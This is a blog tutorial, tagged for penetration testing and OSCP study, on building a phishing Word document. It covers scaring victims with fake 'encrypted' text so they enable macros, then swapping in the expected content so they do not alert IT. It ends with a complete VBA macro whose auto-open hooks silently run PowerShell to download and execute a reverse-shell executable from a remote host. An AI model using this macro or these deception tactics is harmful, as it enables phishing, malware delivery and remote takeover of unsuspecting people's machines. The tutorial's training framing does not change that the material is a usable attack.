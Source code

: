 ```yaml
---
title: "Create A Phishing Word Document With Macros To Get A Reverse Shell"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

This post goes hand in hand with How To Make A Reverse Shell With Microsoft Word Macros since this post will not be covering the macro part required for the actual reverse shell. It will however include the complete macro below, just without explanation of the parts not covered in this post. Instead, this post will go over convincing techniques to trick users into enabling macros. By presenting some kind of "masked" information we can convince the user to enable macros under the guise of unmasking said information. In reality, we are taking advantage of someone's uncomfortability with technology, presenting them with scary looking text, and instructing them that the only way to see what they intending to click on is by enabling macros. By leveraging VBA we can essentially swap out all the information on the screen for a predefined other set of information. To the user they are "decrypting" the information. To us, we are swapping out text that looks scary for something they are expecting, running our reverse shell, and all because the user thinks they need to enable macros to see the information. You can see where your creativity will come into play in your pursaviness to get someone to click on the right thing. In this scenario we are going to demonstrate a very non-creative way of phishing simply for education streamlining. We will leave the creativity up to you.

## "Encrypted" Text

The first step is purely phishing based. In a new Word document start to put together what you think is a convincing appearance that someone needs to "decrypt" in some way to be able to see the information they want. This could include incorprating things like: a long string of bas64 text, some sayings about this message being encrypted, blurred or fuzzy text, and pictures or watermarks referring to some kind of encryption class. In the example below you can see a very bare bones template. The more convincing and scary your phishing tactics are the more likely someone will enable all content without question.

## Insert Picture Here

## The Switch

Once our target enables all content we need to visually switch the text so that it appears as if the document really has been decrypted. This is not only so that the user does not have any concerns or contact their IT Admin, but also so that the target will leave the document up and running long enough for our shell to connect. Copy your encrypted text temporarily and begin building what text the user expected to see. For a fake job application you would include contents of a fake resume as to not raise suspicions. Select all of your decrypted text and go to Insert --> Quick Parts --> AutoTexts --> Save Selection to AutoText Gallery. While in "Create New Building Block" create and remember a unqiue name and select OK. Remove your decrypted text and replace it with the encypted text. Next, we will edit our existing macro to switch the text from encrypted to decrypted when macros are enabled.

## Editing Macro

```
Sub MyMacro()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedText").Insert Where:=Selection.Range, RichText:=True
End Sub
```

We will be inserting this code into our already existing micro. Let us go through how it works and then you can see what the complete macro looks like. ActiveDocument.Content.Select selects all of the existing content, like a ctrl-a command, and is then deleted by Selection.Delete. Next, Word searches for our auto text entry which I have named DecryptedText. Switch out this name for whatever you named your auto text entry.

## Full Macro

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
   ActiveDocument.Content.Select
   Selection.Delete
   ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```
## Takeaways
Remember to save the document as .doc versus .docx or else this attack will not work properly. This macro still does not employ best practices by downloading the reverse shell instead of loading and executing in memory. For a complete post on this please checkout the blog post: INSERT LINK TO NEXT BLOG HERE
